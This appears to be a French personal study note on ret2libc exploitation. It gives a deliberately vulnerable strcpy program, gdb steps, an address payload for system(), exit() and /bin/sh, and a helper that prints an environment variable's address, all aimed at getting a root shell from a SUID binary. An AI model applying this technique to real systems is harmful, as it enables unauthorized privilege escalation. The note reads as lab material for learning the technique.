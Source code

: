 



#### **Théorie**

- La fonction system() de la librairie Libc permet d'exécuter une commande dans un terminal. Si nous réussissons à faire revenir le programme sur l'adresse de cette fonction avec un arguments qui appelle /bin/sh, nous pouvons exécuter un shell en tant que root si le programme victime est en SUID.

#### **Pratique**

##### **Exploit 1**
- **Environnement**
	- L'ordinateur ne doit pas avoir l'ASLR (randomisation de stack) active car nous aurons besoin de l'adresse d'une variable d'environnement, de la fonction systeme et exit. Cependant, cet exploit vise à bypass la désactivation d'exécution d'instructions à partir de la stack. Cette protection nous empêche de mettre dans le buffer notre shellcode car il sera pas exécuté de toute façon.

- **Code source**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
 "\xc0\xf2\x03\x42” //system()
“\x02\x9b\xb0\x42” //exit()
“\xa0\x8a\xb2\x42” //binsh

- **Exploitation**
	- Là on va devoir utilisé gdb. En gros, ce qu'on veut c'est remplacer l'adresse de retour d'une fonction par l'adresse qui pointe vers la fonction system(). La fonction system va donc "déplacer" le processus et va prendre en paramètre ce qu'on place derrière. Ce qu'on va placer derrière c'est l'adresse de la fonction exit() pour pouvoir fermer le programme exploité mais ca ne va pas fermer le processus system(). System va donc lire les paramètres qu'il y a après et nous on va donc mettre l'adresse de la variable d'environnement qui lance /bin/sh.
	- Pour ça, il faut 1) Trouver les adresses de la fonction system() dans l'environnement du programme cible, 2) Trouver l'adresse de la fonction exit() et 3) Créer une variable d'environnement qui lance /bin/sh.
	- 1)
		- Dans gdb lancé avec le programme cible, on fait `p system` après avoir fait `run`.
	- 2)
		- Juste après, on fait pareil avec `p exit`
	- 3)
		- Enfin, on peut faire un petit programme qui créer et affiche l'adresse d'une variable d'environnement :
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
	setenv("binsh", "/bin/sh", 1);
	char *binsh_addr = getenv("binsh");
	printf("Adresse de binsh : %p\n", (void *)binsh_addr);
	return 0;
}
```
- 
	- Après ça, on créer vite fait notre shellcode expliqué au début avec d'abord l'adresse de system(), de exit() et enfin de binsh
	- Enfin, on créer un programme qui fait le payload avec un padding à ajusté et qui lance le programme, comme pour les exploit [[strcpy#^aadea3|strcpy]] et [[Nop Sled Strcpy#^a5154f|Nop Sled strcpy]].
	- Si tous se passe bien, tu devrais avoir un shell root qui pop.
